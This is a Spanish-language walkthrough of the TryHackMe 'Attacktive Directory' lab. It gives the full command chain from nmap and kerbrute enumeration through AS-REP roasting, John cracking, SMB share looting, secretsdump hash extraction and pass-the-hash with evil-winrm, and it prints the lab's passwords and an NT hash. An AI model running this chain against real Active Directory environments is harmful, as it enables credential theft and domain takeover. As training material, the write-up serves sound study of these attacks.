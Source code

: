 ```yaml
---
title: "attacktivedirectory"
description: "attacktivedirectory"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/attacktivedirectory

# Fase de reconocimiento

Windows

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.209.100
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605175535.png)

## Reconocimiento de servicios

````
nmap -sCV -p53,80,88,135,139,445,464,3269,3389,49664,49665,49667,49669,49671 10.10.209.100
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605174129.png)

## Enumeration SMB

````
nmap --script "rdp-enum-encryption or rdp-ntlm-info" -p3389 -T4 10.10.209.100
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605174712.png)

````
enum4linux -a spookysec.local
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605180741.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605180811.png)

## kerberos enumeracion ususarios

Nos descargamos la tool y descargamos un userlist dado

````
kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605223652.png)

# Fase de ataque

Conseguimos un TGT (Ticket) de un usuario para intentar crackearlo

````
impacket-GetNPUsers -request -format john -no-pass spookysec.local/svc-admin
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605223959.png)
Crakeamos con John

````
john --wordlist=passwordlist.txt hash.txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605224238.png)
Vemos si funciona

````
crackmapexec smb spookysec.local -u 'svc-admin' -p 'management2005'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605224648.png)

## SMB

Listamos shares compartidas

````
crackmapexec smb spookysec.local -u 'svc-admin' -p 'management2005' --shares
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605225056.png)
Vemos la share de backup

````
smbclient \\\\spookysec.local\\backup -U svc-admin --password="management2005"
````

Contiene las credenciales de backup

````
	get <archivo>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605225536.png)
Comprobamos la contraseña

````
base64 -d backup_credentials.txt
````

````
crackmapexec smb spookysec.local -u 'backup' -p 'backup2517860'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605230804.png)

## PassTheHash

El usuario backup tiene permiso para sacar los hashes

````
impacket-secretsdump -just-dc backup@spookysec.local
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240605230904.png)
Copiamos el NTHash

````
0e0363213e37b94221497260b0bcb4fc
````

Comprobamos
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240607193036.png)
Nos conectamos con el hash

````
evil-winrm -ip spookysec.local -u 'Administrator' -H 0e0363213e37b94221497260b0bcb4fc
````

\[+\] ==pwned!==
